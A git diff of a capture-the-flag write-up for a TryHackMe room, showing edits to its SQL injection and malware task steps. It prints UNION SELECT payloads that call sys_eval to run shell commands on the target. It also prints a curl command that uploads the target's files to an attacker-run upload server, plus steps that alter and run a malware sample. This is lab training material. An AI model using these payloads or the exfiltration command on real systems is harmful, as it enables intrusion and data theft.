

Room solved!

diff --git a/TryHack3M-Sch3Ma-D3Mon/README.md b/TryHack3M-Sch3Ma-D3Mon/README.md
@@ -29,10 +29,19 @@
 >	- Enumerating the machine to view directories using, `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('ls /home/receipts') -- //`the directory `/home/recipes/` contain encrypted files.![](recipe-files.png)
 >	- Going back to the table names found, the table `transactions` is interesting in this case.
 >	- Getting the column names and enumerating the content using the same process as before.![](transactions-table.png)
->	- The receiver's address is `tWuNGTaSBNJq7mvxF5AetFg4B2VE41MnYs`.
 >	- To decrypt the file, we have to transfer the entire directory first to the attacking machine.
 >	- Using Python's `uploadserver` module on the attacking machine
 >		- Create a directory to upload in.
->		- start the server using `sudo python3 -m uploadserver 443`.
->		- Using `curl -X POST https://10.9.224.110/upload -F 'files=@/home/receipts/<file-name>'` command inside the `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('') -- //` command on each file in the directory.
+>		- start the server using `python3 -m uploadserver 8000`.
+>		- Using `curl -X POST http://10.9.224.110:8000/upload -F 'files=@/home/receipts/<file-name>'` command inside the `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('') -- //` command on each file in the directory.
 >		- ![](file-upload.png)
+>	- Now, using the found addresses, decrypt the files using `gpg --decrypt <file-name>` and when prompted for a key use the address.![](file-decrypted.png)
+## *TASK 6*
+>	- Using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('ls%20 "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0"') -- //` to view the content of the malware directory.![](malware-dir.png)
+>	- Looking at the `readme.txt` file.![](malware-readme.png)
+>	- Viewing the content of the `config.ini` file.![](malware-config.png)
+>	- Using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('echo "debug=true" > "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/config.ini"') -- //` to change the value of the debug to true to stop the effect of the malware.![](malware-new-config.png)
+>	- From the name of the file `mmmmbar.nim`, the programming language can be found.
+>	- By inspecting the malware file with `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('tail -n +20 "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/mmmbar.nim"') -- //`, the file type can be found.![](malware.png)
+>	- Running the "defanged" malware with `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('nim "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/mmmbar.nim"') -- //` to view the flag.![](flag.png)
+>	- 
